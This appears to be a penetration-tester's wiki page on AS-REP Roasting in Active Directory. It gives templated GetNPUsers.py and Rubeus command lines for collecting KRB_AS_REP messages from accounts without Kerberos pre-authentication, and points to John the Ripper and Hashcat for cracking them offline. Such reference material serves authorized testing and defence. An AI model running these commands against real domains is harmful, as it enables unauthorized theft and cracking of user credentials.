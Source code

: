 # ASREP Roasting

> Given a list of valid domain usernames, query the KDC to determine which has the "does not require [[kerberos#Kerberos Pre-Authentication|pre-authentication]]" option set. For each account that doesn't require [[kerberos#Kerberos Pre-Authentication|pre-authentication]], you can send a `KRB_AS_REQ` request on behalf of that user and the KDC will respond with a `KRB_AS_REP` message, which will contain a block of data encrypted with the user's NTLM hash. You can crack this block of data offline to recover the user's NTLM hash.

---

## Gather users who have [[kerberos#Kerberos Pre-Authentication|Kerberos pre-authentication]] disabled and thus are vulnerable to ASREP Roasting (requires domain credentials)

- From a Linux machine:
	- [[pywerview#Gather Users that are ASREP-roasting ASREP-Roastable|pywerview]]
- From a domain-joined Windows machine (in the context of a domain user)
	- [[sharpview#Gather Users who don't Require kerberos Kerberos Pre-Authentication Kerberos Pre-Authentication|SharpView]]
	- [[powerview#Gather Users who don't Require kerberos Kerberos Pre-Authentication Kerberos Pre-Authentication|PowerView]]

---

## ASREP Roast a Particular Domain User from Linux (no password required)

1. Attempt to get a `KRB_AS_REP` message for the user account.

```bash
GetNPUsers.py [-dc-ip $DOMAIN_CONTROLLER_HOSTNAME_OR_IP] $DNS_DOMAIN_NAME/$USERNAME -format $FORMAT [-outputfile $OUTFILE]
```

- `$FORMAT` is either `john` or `hashcat`

2. Attempt to crack the `KRB_AS_REP` message(s) using [[john-the-ripper#Offline dictionary attack against an AS-REP message|John the Ripper]] or [[hashcat#Offline dictionary attack against an AS-REP message ASREP-roasting ASREP Roasting|Hashcat]].

---

## ASREP Roast a List of Domain Users from Linux (no password required)

1. Attempt to get a `KRB_AS_REP` message for each user account from the username file.

```bash
GetNPUsers.py [-dc-ip $DOMAIN_CONTROLLER_HOSTNAME_OR_IP] $DNS_DOMAIN_NAME/ -usersfile $USERS_FILE -format $FORMAT [-outputfile $OUTFILE]
```

- `$FORMAT` is either `john` or `hashcat`

2. Attempt to crack the `KRB_AS_REP` message(s) using [[john-the-ripper#Offline dictionary attack against an AS-REP message|John the Ripper]] or [[hashcat#Offline dictionary attack against an AS-REP message ASREP-roasting ASREP Roasting|Hashcat]].

---

## Automatically ASREP Roast all Vulnerable Users on a Domain from Linux (requires domain user credentials)

1. Attempt to get a `KRB_AS_REP` message for each user account from the domain.

```bash
GetNPUsers.py $DOMAIN_NAME/$USERNAME:[$PASSWORD] [-hashes $LMHASH:NTHASH] [-dc-ip $DOMAIN_CONTROLLER_HOSTNAME_OR_ADDRESS] -format $FORMAT
```

- `$FORMAT` is either `john` or `hashcat`

2. Attempt to crack the `KRB_AS_REP` message(s) using [[john-the-ripper#Offline dictionary attack against an AS-REP message|John the Ripper]] or [[hashcat#Offline dictionary attack against an AS-REP message ASREP-roasting ASREP Roasting|Hashcat]].

---

## ASREP Roast Vulnerable Users from a Domain-Joined Windows Machine

You must be in the context of a domain user for this to work.

1. Attempt to get a `KRB_AS_REP` message for all users that don't have [[kerberos#Kerberos Pre-Authentication|Kerberos pre-authentication]] enabled.

```powershell
Rubeus.exe asreproast /format:$FORMAT [/outfile:$OUTFILE]
```

- `$FORMAT` is either `john` or `hashcat`

2. Attempt to crack the `KRB_AS_REP` message(s) using [[john-the-ripper#Offline dictionary attack against an AS-REP message|John the Ripper]] or [[hashcat#Offline dictionary attack against an AS-REP message ASREP-roasting ASREP Roasting|Hashcat]].
